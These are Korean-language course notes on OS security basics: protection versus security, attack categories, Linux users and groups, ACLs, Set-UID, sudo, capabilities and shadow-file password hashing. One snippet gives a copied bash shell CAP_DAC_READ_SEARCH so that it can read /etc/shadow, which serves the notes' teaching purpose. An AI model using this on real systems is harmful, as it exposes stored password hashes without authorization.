

# 시스템 보안과 해킹 중간 정리

[TOC]

## Ch 1

### Operating System

- What is OS
  - 다음을 제공하는 시스템 소프트웨어
    - 하드웨어와 유저 사이의 인터페이스 제공
    - 하드웨어와 소프트웨어 자원 관리
    - 컴퓨터 프로그램의 공통적인 서비스를 제공
  - 자원 관리(OS = 자원 관리자)
    - 자원 : H/W (memory), S/W (stack, heap, page table), Files, Folders, Data
  - 앱과 유저에게 서비스를 제공

- OS Service
  - 프로그램 실행
    - CPU 스케줄링, 프로세스 상태 전환
  - 메모리 관리
    - 가상 메모리 할당
      - 물리 메모리에는 한계가 있어서
      - 32bits 기준 4G를 가상으로 할당
  - I/O 작동
    - 컴퓨터에 부하가 큼
  - 파일 시스템 취급
  - IPC를 비롯한 통신(Inter-Process Communication, 프로세스 간 통신)
    - 공유 메모리, 메세지 교환
      - 공유 자원에 접근하는 것은 계산 속도를 올리고 데이터 가용성을 높임
  - 에러 탐지 & 핸들링
- Multi-User OS
  - Unix, Ubuntu, DB server
  - Windows는 Single-User OS

Time Sharing OS

- 하나의 CPU가 여러 유저의 여러 프로그래밍을 컨텍스트 스위칭을 통해 시분할로 감당
- 모든 task는 같은 기회를 가짐

Functions of OS

- 효율적인 시스템 작동을 보장하기 위한 OS function
  - 자원 할당
  - 모니터링
    - 어떤 유저가 어떤 종류의 자원을 사용했는지 추적 및 기록하여 지불하게 하거나 통계용으로 사용
      - XaaS (Anything as a Service)
  - 보호
    - 시스템 자원으로의 모든 접근은 조작되었음을 확신시켜줌
  - 프로세스 관리
  - 메인 메모리(주 기억 장치) 관리
  - 보조 기억 장치 관리
  - 파일 관리
  - I/O 시스템 관리
  - 네트워킹
    - 통신망의 설계는 라우팅과 연결 정책, 연결과 보안에서의 문제를 고려해야 함
  - 보호, 보안 시스템
  - 명령어 인터프리터 시스템 : shell, CLI, GUI

Sharing vs Protection

- Sharing
  - 멀티 유저
  - 멀티 태스킹 : 하나 이상의 프로세스가 동시에 작동
  - 멀티프로세싱 : 다수의 CPU가 프로세스를 협력적으로 처리
  - 멀티쓰레딩 : 하나의 프로그램을 다수의 쓰레드로 구분하여 동시에 작동
- Protection
  - Separation 
    - UIDs 분리 - root, guest ...
    - 홈 디렉토리
    - 프로세스 주소 공간
    - 가상 머신
  - Partition
    - 고장나면 고장난 파티션만 복구

Virtual address space

- Separation
  - 분리된 주소 공간에서의 프로세스
    - 멀티 유저 시스템에서 한 유저는 다른 유저의 메모리에 무차별적으로 쓰고 읽는 것이 허가되지 않아야 함
  - 코드, 데이터, 힙, 라이브러리, 스택

Virtualization



- Type 2
  - 스택이 많음 --> 보안은 좋지만 성능이 나쁨
- Container
  - 어느정도 보안성 + 성능 높음
- Type 1
  - 첫번째 보단 빠름

### Protection & Security

- 보호와 보안
  - 인증, 소유권, 제한된엑세스는 이 시스템의 명백한 부분
  - 매우 안전한 시스템은 모든 프로세스의 활동을 기록할 것이며, 보안 규칙은이러한 기록들이 영구적이고 지울 수 없는 미디어에 저장되도록 할 것임
  - 내부 프로세스나 악의적인 외부인을 통해 시스템과 자원이 손상되는 것을 막음
  - 각각의 자원은 올바르게 접근될 수 있도록 보장하며 인증된 유저만 접근 가능
  - Protection : OS에서 정의한 리소스에 대한 프로세스나 유저의 엑세스를 제어하는 매커니즘
  - Security : 내부 및 외부 공격에 대한 OS 방어
    - 악성 코드
    - 외부 환경도 고려해야 함
- 보호
  - 보호 = 중요한 정보에 접근을 제어하는데 사용되는 매커니즘
    - 정보를 보호하기 위해 OS에서 사용하는 특정 매커니즘을 참조
    - 일반적으로 탐지 및 대응 매커니즘이 수반됨
    - 보호는 보안의 하위 집합이라고 할 수 있음
  - 보호 목표
    - 하나의 보호 모델에서 컴퓨터는 개체(파일), 하드웨어 또는 소프트웨어의 모음으로 구성
    - 각 객체는 고유한 이름을 가지며 잘 정의된 작업 집합을 통해 액세스 가능
    - 보호 문제 - 각 개체에 올바르게 액세스하도록 허용된 프로세스에서만 엑세스할 수 있는지 확인해야 함
  - 실행 중인 코드는 일부 데이터 세트에 액세스할 수 있음
    - 코드 == 프로그램, 모듈, 컴포넌트, 인스턴스
    - 데이터 == 객체, 상태, 파일, VM 세그먼트
      - H/W 객체(ex 장치), S/W 객체(ex 파일, 프로그램, 세마포어)
    - 이를 도메인 또는 보호 도메인이라고 부름
      - 상황 및 ID(라벨/속성)에 따라 결정됨
      - 보호 도메인이 중복될 수  있음
    - 도메인 : 개체에 바인딩된 액세스 가능한 이름 집합
      - 엑세스는 참조 모니터로 확인됨
  - 프로세스에서 실행되는 Unix 프로그램
    - 머신은 VAS 맴에 대해 주소 참조를 확인
    - 커널은 파일, 포트 등에 대한 참조를 확인
  - 브라우저에서 실행되는 웹 스크립트
    - 브라우저는 데이터, 쿠키, 서버 URL에 대한 액세스를 확인
  - Java 프로시저
    - JVM+libs는 모든 액세스를 확인함
    - 자바 보안 아키텍처
    - 자바 바이트코드는 전달된 객체 참조 외에는 아무것도 액세스할 수 없음
    - 자바는 유형이 안전하기 때문 (ex 포인터 연산이 없음)
    - 이는 언어 기반 보호의 한 형태
  - 시스템 리소스 보호는 다음 범위에 따라 실행됨
    - 보호 없음: 민감한 프로시저가 별도의 시간에 실행될 경우 충분할 수 있습니다.
    - 격리: 엔티티(사용자)가 물리적으로 서로 분리되어 작동합니다.
    - 모든 것을 공유 또는 공유하지 않음: 객체가 완전히 개인적이거나 완전히 공개적인 경우입니다
    - 액세스 제한을 통한 공유: 다른 엔티티가 객체에 대해 서로 다른 액세스 수준을 가지도록 소유자의 선물로 액세스 수준을 제한합니다. 운영 체제는 엔티티와 객체 사이에 가드 역할을 하여 올바른 액세스를 강제합니다.
    - 객체의 사용 제한은 객체에 대한 액세스 뿐만 아니라 사용 방법도 엔티티(사용자) 간에 다양하게 제한됨

- 샌드박스
  - 샌드박스 : 프로그램이 실행은 될 수 있지만 기기의 나머지 부분에는 영향을 미칠 수 없는 환경
  - 강한 격리는 개념적으로 쉬움 - 프로그램을 분리된 기기에서 동작하거나 VM웨어에서 동작
  - 더 낮은 비용으로 동일한 기능을 제공하려고 시도하는 더 우아한 매커니즘이 있음 ; 대부분은 루트로 제한
    - 악성코드 분석용 에뮬레이터
    - 각 Android 앱에는 고유한 UID가 있으며 자체 샌드박스에서 재생됨(별도의 프로세스로 실행)
  - 매우 어려운 비결은 보안을 유지하면서 외부 세계와의 제한된 상호 작용을 허용하는 것

- OS 보호 원칙

  - 모든 객체는 보호가 필요하지만 특히 공유 가능한 객체는 보호가 필요
    - 메모리, 입출력 장치, 데이터
  - OS 보호의 기본은 분리
    - 커널 공간 vs 사용자 공간, 일반 사용자 vs 루트 사용자
    - 디스크 파티셔닝, 홈 디렉토리 분리, 프로세스별 주소 공간 분리
  - CPU 및 메모리 보호
  - 근본적인 문제
    - 사용자/프로세스를 분리하는 방법은 무엇인가
  - 분리
    - 물리적 분리 - 장치를 분리
    - 시간적 분리 - 한번에 하나씩
    - 논리적 분리 - 주소 공간 분리, 샌드 박싱 등
      - 커널과 애플리케이션 가상 주소 공간의 분리
      - 각 프로세스에 대한 별도의 주소 공간
    - 암호화 분리 - 외부인이 읽을 수 없도록
      - 페이지 수준 암호화, DB의 컬럼 수준 암호화
    - 또는 위 항목의 조합

- ### 보안

  - 기밀성, 무결성(변조 X), 가용성(DoS, DDoS)(CIA)
    - Confidentiality, Integrity, Availability
  - 의도적으로 정보를 훔치거나, 정보를 손상시키거나, 어떤 방식으로든 의도적으로 혼란을 일으키려는 개인의 내부 또는 외부의 의도적인 공격으로부터 시스템을 보호하는 방법을 다룸
    - 보안은 보호 시스템 뿐 아니라 시스템이 작동하는 외부 환경도 고려해야함
  - 시스템 리소스에 보호 시스템을 제공하는 것을 의미
    - 컴퓨터 시스템은(1) 무단 액세스, (2) 시스템 메모리에 대한 악의적인 액세스, (3) 악성 코드 등으로부터 보호되어야 함
  - 다양한 위협으로부터 정보/시스템/자산을 보호
  - 보안 = 위협/위험/취약성이 없는 안전한 상태
  - 보안은 공격자가 있을 때 원하는 속성을 적용하는 것
    - 기밀성 : 암호화
    - 무결성 : 암호화 해시 함수
    - 가용성 : 필터링, 미러링, 백업
    - 인증(Authentication)
    - 승인(Authorization)
    - 감사(Auditing)

- OS의 보안

  - OS는 다음으로부터 자신을 보호해야 함
    - 폭주 프로세스 (DoS)
    - 메모리 액세스 위반
    - 스택 오버플로우 위반
    - 과도한 권한을 가진 프로그램 출시(권한 상승)

- 보안 문제

  - 리소스가 모든 환경에서 의도한 대로 사용 및 액세스되면 시스템은 안전함
    - 달성 불가능
  - 침입자(크래커)가 보안 침해를 시도
  - 위협은 잠재적인 보안 위반
  - 공격은 보안을 침해하려는 시도
    - 공격은 우발적이거나 악의적일 수 있음
    - 악의적인 오용보다 우발적인 오용으로부터 보호하기 더 쉬움

- 침입자(공격자, 크래커)

  - 침입자와 악성 코드는 가장 널리 알려진 두 가지 보안 위협임
  - 우리는 세 가지 유형의 침입자를 식별
    - 신분 위장자는 승인되지 않은 개인(외부인)으로 합법적인 사용자의 계정을 이용하기 위해 시스템에 침투하는 경우
    - 불법 행위자는 권한이 없는 자원에 접근하거나 그러한 권한을 남용하는 합법적인 사용자(내부자)
    - 은밀한 사용자는 감사 제어를 회피하거나 감사 수집을 억제하기 위해 시스템 제어권을 장악하는 개인(내부자 or 외부자)
  - 침입자는 일반적으로 시스템에 접근하려 하거나 종종 합법적인 계정의 비밀번호를 획득하여 자격이 없는 권한을 강화함
  - 비밀번호를 얻기위한 여러 방법들이 시도됨
    - 기본 비밀번호
    - 짧은 비밀번호
    - 사전이나 비밀번호 목록에서 검색
    - 사용자에 대한 개인정보를 수집
    - 트로이목마 사용
    - 통신 회선을 도청

- 보안 위반 카테고리

  - 기밀성 위반
  - 무결성 위반
  - 가용성 위반
  - 서비스 도용
  - 서비스 거부(DoS)
  - 신분 위반(위반 인증)
  - 재생 공격
    - 통신을 가로채고 통신을 지연시키거나 재전송하는 방식
  - 중간자 공격
  - 세션 하이재킹
    - 이미 설정된 세션을 가로채 인증 우회
  - 권한 상승
    - 사용자나 리소스가 보유해야 하는 것 이상의 액세스 권한을 갖는 일반적인 공격 유형

- 보안 요소

  - 격리/보호
    - 샌드박스와 경계는 확인되지 않은 액세스를 방지
  - 무결성
    - 변조를 감지하기 위한 지문 데이터
    - 액세스 또한 변조를 방지하기 위한 암호화
  - 인증
    - 비밀을 가지고 있다는 증거로 피어 식별
  - 정체성과 속성
    - ID에는 이름, 태그, 역할 등의 자격 증명이 있음
  - 승인 == 접근 제어
    - Guard는 접근 정책에 대해 자격 증명을 확인

- 보호와 보안

  - 보호는 사용자 및 프로세스의 자원에 대한 액세스를 제어하는 것으로 사용자나 프로세스가 자신이 허용되지 않은 자원에 액세스를 하려고 할 때 이를 방지하는 것
  - 보안은 시스템을 악의적인 공격으로부터 보호하는 것으로, 시스템에 대한 불법적인 액세스나 권한 상승 등의 공격을 방지하는 것
  - 따라서 보호는 자원에 대한 액세스를 제어하는 것이고, 보안은 시스템을 악의적인 공격으로부터 보호하는 것

### OS 관련 공격과 보안

- 인터넷 웜
  - finger 및 sendmail 프로그램의 unix 원격 액세스 및 버그 악용
- 스키드맵 악성 코드는 루트킷을 사용하여 암호화폐 마이닝 페이로드를 숨김
  - 루트킷은 해커와 같이 일반적으로 권한이 없는 사용자가 접근할 수 없는 영역에 접근하여 시스템을 제어하도록 설계된 악성 소프트웨어 모음
- ccOS - 커넥티드 카 운영 체제
  - 커넥티드 카의 보안에는 다층적인 접근 방식이 필요
  - Secure computing
    - 차량 내 및 외부 네트워크를 모니터링하고 차량 안전과 관련된 데이터를 격리하여 시스템을 보호하는 보안 컴퓨팅
- 루트킷 설치 예
  - 공격자가 호스트에 대한 루트 수준 액세스 권한을 얻은 후 호스트에서 공격자의 활동을 숨기고 공격자가 은밀한 수단을 통해 호스트에 대한 루트 수준 액세스를 유지할 수 있도록 허용하기 위해 사용하는 도구 집합
- 관리자 권한 및 악성코드/랜섬웨어 전파
  - 말웨어는 승인되지 않은 소프트웨어 설치, 불법 복제 도구 설치, 악성 이메일 첨부 파일 열기, 악성 URL 클릭, 유해 페이지 방문 등을 통해 쉽고 빠르게 확산됨
  - 이러한 공격의 대부분은 주로 최종 사용자가 로컬 관리자 권한을 갖고 있기 때문에 발생

## Ch 2

### Linux OS

- OS는 HW와 사용자 및 앱 간의 인터페이스를 제공

- 질문

  - 일반 사용자와 루트 사용자의 차이점
    - 루트 사용자 == 관리자 사용자
  - 리눅스에서 su와 sudo 명령의 차이점
  - OS에서 커널이란
    - OS에서 커널의 기능은 무엇인가
    - 커널 모듈과 사용자 프로그램의 차이점은
  - 사용자 모드와 커널 모드의 차이점은 무엇인가
  - 시스템 호출과 프로시저 호출의 차이점

- 주요 개념

  - 프로세스
    - 가상 주소 공간, 하나 이상의 스레드 및 일부 OS 커널 상태로 구성된 프로그램 실행
  - Virtual address space(VAS)
    - 데이터 및 코드를 처리하기 위한 명령을 실행하기 위한 네임스페이스를 정의하는 프로세스/스레드에 대한 실행 컨텍스트
  - Kernel
    - 하드웨어를 직접 제어하고 핵심 권한이 있는 OS 기능을 구현하는 소프트웨어 구성요소
    - 최신 하드웨어에는 OS 커널이 신뢰할 수 없는 사용자 코드로부터 자신을 보호할 수 있는 기능이 있음
    - 커널은 컴퓨터의 모든 하드웨어 장치에 대한 가장 기본적인 수준의 제어를 제공
  - 파일

- 커널이란

  - 커널은 OS의 핵심적인 구성 요소로서 시스템의 모든 기능을 완벽하게 제어
    - 메모리에 상주
    - 커널 코드는 별도의 메모리 영역에 로드되어 응용 프로그램이나 기타 프로그램의 접근으로부터 보호됨
  - 커널은 중요한 시스템 기능을 다룸
    - CPU 스케줄링, 컨텍스트 스위칭, IPC 등등
    - 메모리 관리
    - 예외 처리기
  - CPU 및 OS는 듀얼모드 작동을 지원
    - 사용자 모드 및 커널 모드
      - user mode ---system call interrupt ---> kernel mode
      - kernel mode --- set user mode ---> user mode
      - cs 레지스터의 최하위 2비트로 유저모드인지 커널모드인지 구분

- 듀얼 모드 작동

  - 일부 프로세서 제어 레지스터의 일부 비트에 의해 결정되는 사용자 대 커널 모드
    - cs 레지스터 최하위 2비트
      - 00은 커널, 11은 사용자
    - 0 = 가장 높은 권한(커널 모드), 3 = 가장 낮은 권한(사용자 모드)
    - 레벨 1과 2도 사용할 수 있지만 Linux에서는 사용 불가
  - 보호링
    - 커널 | 디바이스 드라이버 | 디바이스 드라이버 | 어플리케이션
  - 버그가 있는 프로그램이 나쁜일을 하는 것을 막을 수 있음
    - 적어도 두 작동 모드를 구분할 수 있는 하드웨어 지원을 제공

- 사용자 대 커널모드

  - OS는 리소스에 대한 다양한 수준의 액세스를 제공
  - 커널 모드는 신뢰할 수 있는 (OS) 코드 실행을 위한 프로세서의 특수 모드
    - OS는 시스템 하드웨어에 대한 전체 액세스 권한을 가짐
      - 특정 기계 명령어는 커널 모드에서만 가능
      - 특정 기능/ 권한은 커널모드에서 실행되는 코드에만 허용됨
      - 커널은 CPU, 메모리 등 H/W와 직접 상호작용
    - 메인 메모리에 로드되어 메인 메모리에 남아 있음
  - 사용자 모드는 사용자 애플리케이션이 자체적으로 수행할 수 있는 작업을 제한하기ㅐ 위해 실행되도록 설계된 모드
    - H/W는 애플리케이션이 수행할 수 있는 작업을 제한

- 커널 모드 권한

  - 특권 지침
    - 사용자 앱은 인터럽트 비활성화/활성화, 메모리 매핑 변경 등을 허용해서는 안됨
  - 특권 메모리 혹은 I/O 액세스
    - 프로세서는 커널 모드에서만 액세스할 수 있는 메모리 또는 I/O 공간의 특수 영역을 지원
      - 크리티컬 섹션, 커널 데이터 구조 등
  - 별도의 스택 및 레지스터 세트
    - MIPS 프로세서는 섀도우 레지스터 세트를 사용할 수 있음
      - interrupt 핸들링 시 레지스터 로드/저장 오버헤드를 줄이는데 사용됨

- 모드 전환

  - 사용자 애플리케이션에서 무해한 코드를 실행할 때의 사용자 모드
  - 시스템 커널에서 코드를 실행할 때의 커널 모드(시스템 모드, 감독자 모드, 특권 모드라고도 함)
    - 특정 기계 명령어(특권 명령어)는 커널 모드에서만 실행될 수 있음
  - 시스템 호출이 발생하거나 오류, 인터럽트가 발생하면 커널 모드로 들어갈 수 있음

- 시스템 콜, 장애, H/W 인터럽트

  - 시스템 콜

    - 실행 중인 프로그램과 OS 간의 인터페이스 제공
      - 시스템 호출은 하드웨어 권한 수준을 높이는 동시에 제어권(ex: jump)을 OS로 전송
        - 시스템콜은 OS에 어떤 활동을 수행하도록 요청하는 것
      - 일반적으로 고급 언어(C 또는 C++)로 작성됨
    - 사용자 모드 앱이 커널 모드 코드를 호출할 수 있는 제어된 방법을 제공
    - OS에 구조화된 진입점 제공
      -  OS에서 사용자 앱이 I/O 또는 기타 서비스를 요청하도록 허용하는 데 자주 사용됨
        - ex) chmod(), execve(), fork(), exit(), kill()
    - Syscall과 트랩은 호출 시 커널 모드로 전환됨

  - 실행중인 프로그램과 OS 간에 매개변수를 전달하는 데는 세 가지 일반적인 방법이 사용됨

    - ssize_t read(int fd, void *buf, size_t count);

    - 레지스터에 매개변수 전달
    - 매개변수를 메모리의 테이블에 저장하고 테이블의 주소는 레지스터의 매개변수로 전달됨
    - 프로그램에 의해 매개변수를 스택에 푸시하고 OS에 의해 스택을 팝 함

  - x86 구문 : INT 0x80 (0-255 또는 0x00-0xff 사이의 값)

    - EAX 또는 스택에 인수가 배치됨

  - MIPS 구문 : syscall

    - 필요한 인수는 OS에 의해 정의되고 특정 레지스터에서 배치될 것으로 예상됨

- 예외 처리

  - 예외 : 시스템 호출(= 트랩), 오류, H/W 인터럽트
  - 예외의 원인은?
  - 예외가 발생하면 하드웨어는 무엇을 하는지
    1. 프로세스를 복원할 수 있도록 필요한 상태를 저장
       1. 현재/문제 명령의 PC(IP) 저장
    2. 적절한 핸들러 루틴을 호출하여 error/interrupt/systemcall을 다룸
       1. 핸들러는 예외의 원인을 식별하고 처리
       2. 더 많은 상태를 저장해야 할 수도 있음
    3. 상태를 복원하고 문제가 있는 애플리케이션으로 돌아감
       1. 또는 복구가 불가능할 경우 종료

- OS 서비스 : 오류 감지 및 처리

  - 사용자 프로그램이 불법적인 명령어(꿘한이 있거나 존재하지 않는 명령어)를 실행하거나 금지된 메모리 영역에 접근하려는 시도
    - 인터럽트 핸들러에 의해 트랩되는 소프트웨어 인터럽트를 생성
    - 적절한 오류 메세지를 발행하고 나중에 분석하기 위해 데이터를 로그(코어) 파일에 덤프한다음 문제가 있는 프로그램을 종료하는 OS로 제어권이 이전됨

### 리눅스 보안 개요

- 사용자

  - 리눅스에서 각각의 유저는 고유한 유저 ID가 할당됨

  - 유저 ID는 /etc/passwd에 저장됨

  - 유저 ID는 iod 명령어로 볼 수 있음

    - 0 == root

  - 운영체제에서 많은 접근 제어가 사용자 ID가 0인지 아닌지 확인

    - $ --> 일반 사용자
    - \# --> 루트 사용자

  - 그룹

    - 시스템의 사용자 모음
    - 그룹에 의해 허가 권한이 할당됨
    - 유저는 여러 그룹에 속할 수 있음
    - 유저의 대표 그룹은 /etc/passwd에 저장됨
    - id 명령어를 사용하면
    - uid=~ gid=1000(대표그룹) groups=1000, 4, 27,~

  - 그룹 관리

    - 유저 추가

      - 직접적으로 /etc/passwd에 추가
      - adduser 커맨드 사용 --> 관리자(root)만 가능 (sudo 가능)

    - su ==> Switch to another user

    - groupadd, usermod 명령어를 통해 그룹 및 유저 추가

      - ```shell
        sudo groupadd alpha
        sudo usermod -a -G alpha seed # alpha 그룹에 seed 추가
        sudo usermod -a -G alpha bob
        ```

- 루트 유저와 일반 유저(UNIX/Linux에서)

  - 유저는 유저 이름, 그룹 이름, 비밀번호가 있음

  - 루트 유저는 관리자이자 슈퍼유저(UID 0)

    - 어떤 파일이나 시스템 리소스든 모두 읽고 쓸 수 있음
    - OS를 바꿀 수 있음
    - 다른 유저가 될 수 있음
      - 다른 사람 ID로 커맨드 실행

  - 루트 계정은 매우 강력     
    - 최대 권환 -- 아무 파일이나 읽고 쓸 수 있음
    - 루트 유저는 모든 파일의 소유자 처럼 행동할 수 있음
    - UID == 0
    - 다중 루트 계정이 될 수 있음?
    

### File permission, Set-UID bit

- Traditional Permission Model

  - 리눅스에서는 부팅하자마자부터 하드웨어, 프로세스 등의 모든 요소를 파일로 관리
  - 파일로 저장해놓고 변경사항이 생기면 수정

- 모든 파일은 소유자와 그룹이 있음

- 소유자나 루트는 허가를 설정

- Permission bits

  - s = setuid, setgid (만약 디렉터리라면, 파일들이 디렉터리 소유자의 gid를 갖게 됨)
  - t = sticky bit(만약 디렉터리라면, 추가만 가능 삭제 X)

- Default File Permission

  - umask value : 새로운 파일에 대해 기본 permission을 결정
  - 0666(rw-rw-rw-) 에서 빼는 방식

- Access Control List(접근 제어 목록)

  - Fine-grained ACL
  
  - 파일 소유자 또는 특권 사용자가 특정 주체에 권한을 부여할 수 있음
  
  - 일반적인 허가 권한 모델은 목록의 길이가 3으로 고정, 각 목록 항목의 주체가 소유자, 그룹 및 기타인 ACL의 특수한 경우라고 볼 수 있음
  
  - setfacl을 이용하여 목록에 더 많은 허가 권한 추가 가능
  
  - ```shell
    $ getfacl example
    file: example
    owner: seed
    group: seed
    user::rw-
    group::rw-
    other::r--
    
    $setfacl -m u:alice:r-- example
    $setfacl -m g:faculty:rw- example
    owner: seed
    group: seed
    user::rw-
    user:alice:r--
    group::rw-
    group:faculty:rw-
    mask::rw-
    other::r--
    
    # ls 해보면 -rw-rw-r--+ 이렇게 +가 붙는데 이는 ACL이 정의되었음을 나타냄
    ```
  

### 특권으로 명령어 실행하기

- SetUID bit

  - passwd
    - /usr/bin/passwd 바이너리 파일은 비밀번호를 바꾸는 명령어로 /etc/passwd 와 /etc/shadow를 수정
    - 일반 유저에게는 /etc/passwd 와 /etc/shadow 파일에 쓰기 권한이 없음
    - 이게 가능한 이유는 /usr/bin/passwd에 SetUID bit가 설정되어 있어 Passwd를 실행하면 root의 권한을 갖게되어 shadow 파일을 수정할 수 있기 때문
    - -r-sr-xr-x 에서 앞의 s가 SetUID bit
  - chmod command
    - chmod 754와 chmod 4754의 차이는 setUID bit가 설정됨
    - chmod 4744 setuid1 == chmod u+s setuid2

- Using sudo

  - sudo: Super-user Do
  - 명령어를 슈퍼유저로서 실행
  - 유저는 인증받아야 함(/etc/sudoers)
    - sudo 명령을 사용하려면 이 파일에 기재되어있어야 함(sudo 보안 정책)
    - 이 파일에 sudo 그룹의 구성원으로 기재되어있음

- Getting Root Shell

  - 우분투 20.04에서 기본적으로 루트 사용자 계정이 잠겨있어 사용자가 루트 계정으로 로그인할 수 없음
  - 루트 쉘을 얻는 방법
    - sudo -s
    - sudo bash
    - sudo su // su = switch user
  - 루트 쉘을 사용하여 명령어를 실행하는 것은 권장되지 않으며 sudo로 실행하는 것이 나음
  - sudo 명령을 통해 다른 사용자로 명령 실행도 가능
    - sudo -u bob id

- POSIX 기능

  - setUID는 명령을 실행하는 모든 사람이 명령 소유자의 모든 특권을 이용하여 실행할 수 있음

    - 이는 과도한 특권이며 매우 위험할 수 있음

  - 이 문제를 해결하기 위해 POSIX 기능 매커니즘 도입

  - 루트 특권을 기능이라는 여러 개의 작은 권한 단위로 나눔

  - man capabilities 명령어를 통해 POSIX 기능의 전체 목록을 볼 수 있음

  - ```shell
    $ cp /bin/bash ./mybash
    $ sudo setcap CAP_DAC_READ_SEARCH=ep mybash
    $ ./mybash
    $ getpcaps $$ # 현재 프로세스의 기능 리스트
    65331: = cap_dac_read_search+ep <- 프로세스가 기능을 가지고 있음
    ```

  - 이후 shadow 파일을 다시 읽으면 사용자에게  특권이 없더라도 쉘 프로세스에는 파일을 읽을 때 permission check 하는 부분을 우회하는 기능이 있어 읽을 수 있음

- 사례 연구

  - 와이어샤크
    - 스티핑 도구로, (root의) 특권이 필요함
    - 시각화 파트는 특권이 없음
    - 스니핑 파트는 dumpcap과 privileged
      - getcap /usr/bin/dumpcap
      - /usr/bin/dumpcap = cap_net_admin, cap_net_raw+eip
    - 핑 프로그램
      - 핑 프로그램은 유용한 네트워크 유틸리티로, 특권이 필요한 원시 소켓을 사용
      - 원래는 ping도 Set-UID 프로그램이었는데 최근 버전에서는 CAP_NET_RAW 기능만 제공

### 인증

- 인증 방식
  - 유저의 ID를 확인하는 프로세스
  - 전형적인 인증 방식
    - 유저가 아는 것을 기반으로 : 비밀번호
    - 유저가 갖고있는 것을 기반으로 : ID 카드
    - 유저가 무엇인가를 기반으로: 지문
    - 다중 요소 인증
      - 여러 요소를 사용해서
      - otp
- 패스워드 인증
  - 알고있는 것 기반
    - 매우 보편적
    - 매우 쉽게 예측됨
    - 원래 평문 텍스트로 저장이 되어있었는데 이는 좋은 방법이 아님
    - 오늘날 패스워드는 보통 해시로 저장됨
    - 그러나 몇몇 네트워크 인증 체제는 여전히 평문을 요구
  - 관련된 파일들
    - /etc/passwd
    - /etc/shadow
      - 해쉬값을 갖고 있음
    - /etc/group
  - passwd file
    - 각 항목은 사용자의 계정 정보이며 비밀번호는 없음
    - oracle\:x:1021:1020:Oracle user: /data/network/oracle:bin/bash
      1. 유저 명
      2. 패스워드
      3. UID
      4. GID
      5. UID 정보
      6. 홈 디렉터리
      7. 커맨드/쉘의 절대경로 (꼭 쉘일 필요는 없음)
         - /usr/sbin/nologin
           - 로그인 자체를 막음, bash 쉘 사용 불가
         - /bin/false
           - 쉘을 assign 할 수 있으나, 하지 않은 상태
         - 두 명령 모두 즉시 종료
  - Shadow File
    - 해시된 패스워드를 저장
    - 각 항목은 한 사용자를 위한 것이며 콜론으로 구분되어 여러 필드를 포함
    - userId:$알고리즘$salt$비밀번호 해시값:17372:0:99999:7:::
    - Salt의 목적
      - 같은 해쉬값이면 같은 input임을 인지할 수 있으므로
      - 보통 password 생성 시간을 추가하여 hash function을 돌려 생성
      - 무차별 대입 공격이나 dictionary attack, rainbow table attack을 막기 위해
    - 해시는 무결성 검증(ex. sha 256)에 사용되며, 1-way func 으로 1bit를 넣어도 512bit를 반환함
    - 각 파트 별 내용
      1. 유저 이름
      2. 비밀번호
      3. 마지막 비밀번호 변경
      4. 비밀번호 변경 최소 일자
      5. 비밀번호 유효 최대 일자
      6. 만료 전 경고 일자
      7. 비밀번호 만료 후 계정 비활성화 일자
      8. 계정 비활성화 후 계정 만료 일자
    - 정책에 따라 해시 함수를 몇 번 돌릴지도 다름
    - 솔트값과 평문 비밀번호를 해시 함수를 돌려서 해시값을 저장하고 유효성 검사 시 입력받은 비밀번호와 솔트값으로 또 해시 함수를 돌려서 일치하는지 확인
    - 잘못된 값
      - \* : 관례적으로 로그인할 의도가 없는 계정(ex. bin, daemon 등)
      - ! : 계정이 잠김
      - !! : 계정이 생성은 되었지만 비밀번호가 할당되지않아 잠김

## Ch 3

### Set-UID

- Need for Privileged Programs
  - shadow 파일은 일반 유저도 쓰기를 할 수 있어야 함(비밀번호를 바꿔야 하니까)
  - 사용자가 파일에 접근할 수 있는지를 결정할 수는 있지만 접근할 수 있는 파일을 부분적으로 제한할 만큼 충분한 세분성이 없음 --> 특권 프로그램의 형태인 확장에 의존
    - set-UID 프로그램
    - daemons(background)
  - 이런 식의 응용 프로그램의 종속 요구사항에 의해 제기된 예외를 지원하기 위해 일반 사용자에게 없는 추가 권한을 제공하는 프로그램을 특권 프로그램이라고 함
- 특권 프로그램의 유형
  - daemons(= Services in MS Windows)
    - 백그라운드에서 실행되는 컴퓨터 프로그램
    - 루트나 다른 특권이 있는 유저로서 데몬을 실행해야 함
    - 유저가 root 권한이 필요한 요청을 보내면 데몬이 대신 해줌
  - SetUID 프로그램
    - UNIX 시스템에서 널리 쓰임
    - 프로그램이 특별한 비트로 마킹되어있음
- Set-UID의 개념
  - 유저가 프로그램을 일시적으로 프로그램 소유자의 권한으로 실행할 수 있도록 허락함
  - 엑세스 제어는 EUID를 기반으로 함
  - 방식
    - sudo chown root mycat
    - sudo chmod 4755 mycat
- How is Set-UID Secure
  - 일반 유저의 일시적 권한 상승
    - 이는 권한을 주는 것과 다름(sudo command)
      - 일반 유저는 특권을 받으면 무엇이든 할 수 있음
    - 제한된 행동
      - 일반 유저는 오직 프로그램에 포함된 작업만 수행할 수 있음
  - 모든 프로그램을 Set0UID로 바꾸는 것은 위험함
    - /bin/sh 프로그램을 Set-UID프로그램으로 바꾸는 것은 안전하지 않음
      - 사용자가 지정한 다른 프로그램을 실행할 수 있어서
    - vi도 안전하지 않음
